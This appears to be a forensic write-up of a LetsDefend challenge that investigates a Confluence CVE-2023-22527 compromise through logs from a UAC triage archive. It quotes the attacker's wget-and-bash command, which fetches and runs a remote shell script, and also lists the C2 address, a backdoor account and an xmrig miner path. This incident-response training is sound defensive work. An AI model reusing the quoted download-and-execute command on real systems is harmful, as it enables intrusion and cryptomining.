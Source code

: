 # [LetsDefend - Confluence CVE-2023-22527](https://app.letsdefend.io/challenge/confluence-cve-2023-22527)
Created: 19/06/2024 15:38
Last Updated: 19/06/2024 17:20
* * *
<div align=center>

**Confluence CVE-2023-22527**
![84004c7a69c89b8da0a3ab8ea9598be6.png](/_resources/84004c7a69c89b8da0a3ab8ea9598be6-1.png)
</div>

Confluence is used by many organizations. Our organization was recently targeted and we need your expertise to help us recover from this incident. Our defense tools raised an alert about a crypto miner tool in the Confluence related directory, which led sysadmins to believe that this incident was initiated from Confluence.

You are given a triage archive image, collected via UAC(unix-like artifact collector) tool.

**File Location**: /root/Desktop/ChallengeFile/uac-ip-172-31-35-28-linux-20240125122358.zip

* * *
## Start Investigation

CVE-2023-22527 is Server Template Injection Vulnerability that resulted in Unauthenticate Remote Code Execution at `/template/xhtml/pagelist.vm` endpoint, you can read about this [vulnerability](https://www.trendmicro.com/en_th/research/24/b/unveiling-atlassian-confluence-vulnerability-cve-2023-22527--und.html) here

>What is the URI path which is vulnerable to the CVE?

![49de9e7cc880f85bdf88a1d68f1cc506.png](/_resources/49de9e7cc880f85bdf88a1d68f1cc506.png)

UAC stores files from system within `[root]` directory

![5bcc47e640c08156d78cd85600c88be2.png](/_resources/5bcc47e640c08156d78cd85600c88be2.png)

Then we can find confluence log using `find . -type f -name "*access*"` and the one we're going to investigate is `/opt/confluence/logs/conf_access_log.2024-01-25.log`

![94e18484fb1e8d4ae5d8e8245d09e49e.png](/_resources/94e18484fb1e8d4ae5d8e8245d09e49e.png)

and we can see that this familiar endpoint was exploited, now we got an user-agent of an attacker and his IP address

```
/template/aui/text-inline.vm
```

>When did the attacker first exploit this vulnerability? (Answer Format: YYYY-MM-DD HH:MM:SS)

![ec7fb66fd46ad756c015635b84904440.png](/_resources/ec7fb66fd46ad756c015635b84904440.png)

Using an attacker IP address to filter for all traffics coming from this IP address and the first record is the one we're looking for 

```
2024-01-25 11:41:26
```

>What is the attacker's remote IP Address?
```
3.110.176.89
```

>Analyze the Sysmon for Linux logs and identify the first command executed by the attacker.

![81da97ded9f5bd17363f891046460e7b.png](/_resources/81da97ded9f5bd17363f891046460e7b.png)

Go to  `/[root]/var/log` and use `grep "confluence" syslog > confluence.txt && head confluence.txt` to find all activities from "confluence" user that was logged in `syslog` which you can see that the first command that was executed is `id` 

```
id
```

>What time did the attacker first enumerate directories on the compromised system? (Answer Format: YYYY-MM-DD HH:MM:SS)

![a9e10c387348432dc79ec09c7e6153c6.png](/_resources/a9e10c387348432dc79ec09c7e6153c6.png)

Investigate text file that was created from previous question and you can see that `ls -la` (listing directory) was executed after the first command by 2 minutes

```
2024-01-25 11:43:33
```

>The attacker tried to execute remote commands to get a more stable shell, but apparently failed many times. Analyzing the Confluence log sources, can you find the command he/she executed around 2024-01-25 11:50:50 that errored out?

![35416b3cb7d688dbf754f5875c53042f.png](/_resources/35416b3cb7d688dbf754f5875c53042f.png)

Go to `/[root]/var/confluence-home/logs` and you can see that there are several log files here but the one that we're going to use is `atlassian-confluence.log`

![757506303bca9a2125d23b51ce38f9d3.png](/_resources/757506303bca9a2125d23b51ce38f9d3.png)

Then we can use `grep "11:50:50" atlassian-confluence.log` to find which command was sent to be executed at the time.

```
wget http://3.110.176.89/lin/6730789213.sh;chmod  x 6730789213.sh; bash 6730789213.sh
```

>User agents are a useful source of information and can be used for analysis. What user agent was the attacker using?

![c4aa2c61e64dac59b1e82bf296ba7cb4.png](/_resources/c4aa2c61e64dac59b1e82bf296ba7cb4.png)
```
python-requests/2.28.2
```

>It appears that the attacker was able to download a bash script and then execute it to get a stable shell. What is the full path of this file? (Answer Format: /path/file.extension)

![31274f7b6f5134819f60d485a7b23795.png](/_resources/31274f7b6f5134819f60d485a7b23795.png)

I searched shell script extension on `syslog` and found that it was downloaded using curl and saved to `tmp` directory

![c770e76b5ccc03ada9ecd1ad757027f9.png](/_resources/c770e76b5ccc03ada9ecd1ad757027f9.png)

Other way to find this is to read content of `/live_response/process/pstree_-a.txt` 

```
/tmp/xxx.sh
```

>What is the size in bytes of the bash file detected earlier?

![2b65f117b4b50bbf7f751fca86a90b37.png](/_resources/2b65f117b4b50bbf7f751fca86a90b37.png)

We couldn't get file size from a file itself

![111b4a0312607dee5d08ade96b6cc48b.png](/_resources/111b4a0312607dee5d08ade96b6cc48b.png)

But we need to use `grep "xxx" /bodyfile/bodyfile.txt` to get file size that was logged using UAC

```
68855
```

>Analyzing the network connections from the triage output, what is the C2 IP address and port that the attacker connected to? (Answer Format: IP:PORT)

![d96db4e1a00b3333a3bef549813f0fe0.png](/_resources/d96db4e1a00b3333a3bef549813f0fe0.png)

Read content of `xxx.sh` then we will see which port that was used to connect to an attacker listener port

```
3.110.176.89:1200
```

>What is the SHA1 hash of the bash script found in Question 8?

![6c6dffa35824ff1579bc3c4ff3403142.png](/_resources/6c6dffa35824ff1579bc3c4ff3403142.png)

Easily obtain by using `sha1sum xxx.sh`

```
9ac4d3459093aac9ee4bb3b87fdeaaaa3c5bd551
```

>Attackers create new privileged user accounts for backdoor access. What is the username of the backdoor account created by the attacker?

![7a68083c7f90c3e7793adfde02080bc1.png](/_resources/7a68083c7f90c3e7793adfde02080bc1.png)

Go to `[root]/var/log/` then we will use `grep "useradd" auth.log` to find all activities from `useradd` binary

```
confluence_servcie
```

>When was this backdoor account created? (Answer Format: YYYY-MM-DD HH:MM:SS)
```
2024-01-25 12:15:42
```

>The attacker downloaded a miner tool before being detected. What is the full path of this miner archive file?

![e025aedcd0a50dc7806f6530442f068d.png](/_resources/e025aedcd0a50dc7806f6530442f068d.png)

We know that an attacker used either `curl` or `wget` to download file so I used `grep "root" syslog | grep "wget"` to get this answer

```
/opt/confluence/xmrig-6.16.4-linux-static-x64.tar.gz
```

* * *
## Summary

On this challenge, we investigated confluence logs and syslog to determine source of attacks and how an attackers got reverse shell connection to infected IP address 

<div align=center>

![f450d57da6ef1cbc644b3f750a638333.png](/_resources/f450d57da6ef1cbc644b3f750a638333.png)
</div>

* * *
